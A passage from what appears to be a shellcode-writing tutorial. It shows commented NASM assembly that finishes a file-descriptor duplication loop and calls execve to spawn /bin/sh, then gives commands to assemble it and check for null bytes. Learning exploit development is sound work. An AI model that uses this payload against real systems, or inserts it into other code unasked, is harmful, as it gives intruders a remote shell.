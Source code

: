 ```nasm
  dec  ecx         ; decrement counter
  jns  dup         ; as long as SF is not set -> jmp to dup

  ; spawn /bin/sh using execve
  ; int execve(const char *filename, char 
  ; *const argv[],char *const envp[]);
  mov  al, 0x0b    ; syscall: sys_execve = 11 (mov eax, 11)
  inc  ecx         ; argv=0
  mov  edx, ecx    ; envp=0
  push edx         ; terminating NULL
  push 0x68732f2f	 ; "hs//"
  push 0x6e69622f	 ; "nib/"
  mov  ebx, esp    ; save pointer to filename
  int  0x80        ; syscall: exec sys_execve
```

### testing

Now, as in the first part, let's assemble it and check if it properly works and does not contain any null bytes:
```bash
nasm -f elf32 -o rev.o rev.asm
ld -m elf_i386 -o rev rev.o
objdump -M intel -d rev
```

![compile shellcode](./images/14/2021-10-16_13-53.png){width="80%"}       
